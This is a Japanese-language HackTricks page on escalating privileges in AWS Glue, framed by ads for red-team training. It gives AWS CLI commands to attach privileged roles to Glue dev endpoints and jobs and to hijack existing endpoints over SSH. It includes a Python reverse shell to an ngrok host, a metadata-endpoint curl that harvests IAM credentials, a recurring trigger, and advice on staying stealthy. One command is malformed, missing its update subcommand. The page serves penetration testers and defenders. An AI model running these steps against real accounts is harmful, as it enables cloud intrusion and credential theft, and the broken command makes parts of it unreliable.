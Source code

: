 # AWS - Glue Privesc

<details>

<summary><strong>「ゼロからヒーローまでAWSハッキングを学ぶ」</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

**`iam:PassRole` と `glue:CreateDevEndpoint`** の権限を持つユーザーは、これらを悪用して**新しいAWS Glue開発エンドポイントを設定し**、特定の権限を持つ既存のサービスロールをこのエンドポイントに**割り当てる**ことができます。

セットアップ後、**攻撃者はエンドポイントのインスタンスにSSHで接続し**、割り当てられたロールのIAMクレデンシャルを盗むことができます：
```bash
# Create endpoint
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
ステルス目的のため、Glue仮想マシン内部からIAMクレデンシャルを使用することを推奨します。

**潜在的影響：** Glueサービスロールに対する権限昇格。

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

**`glue:UpdateDevEndpoint`** 権限を持つユーザーは、既存のGlue開発エンドポイントのSSHキーを**変更し、それに対するSSHアクセスを**可能にすることができます。これにより、攻撃者はエンドポイントに添付されたロールの権限でコマンドを実行し、不正アクセスや行動につながる可能性があります。
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
**潜在的な影響：** Glue サービスロールへの Privesc。

### `iam:PassRole`、(`glue:CreateJob` | `glue:UpdateJob`)、(`glue:StartJobRun` | `glue:CreateTrigger`)

**`iam:PassRole`** と **`glue:CreateJob` または `glue:UpdateJob`**、そして **`glue:StartJobRun` または `glue:CreateTrigger`** を組み合わせたユーザーは、任意の **Glue サービスアカウント** を添付して **AWS Glue ジョブを作成または更新** し、ジョブの実行を開始できます。ジョブの機能には任意の Python コードの実行が含まれ、これを悪用してリバースシェルを確立することができます。このリバースシェルは、Glue ジョブに添付されたロールの **IAM 資格情報** を抽出するために利用され、そのロールの権限に基づいた潜在的な不正アクセスや行動につながる可能性があります：
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**潜在的な影響：** 指定されたglueサービスロールへのPrivesc。

### `glue:UpdateJob`

更新権限だけで、攻撃者は既にアタッチされているロールのIAMクレデンシャルを盗むことができます。

**潜在的な影響：** アタッチされているglueサービスロールへのPrivesc。

## 参考文献

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)で</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>AWSハッキングをゼロからヒーローまで学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見する、私たちの独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクション
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)や[**テレグラムグループ**](https://t.me/peass)に**参加する**、または**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
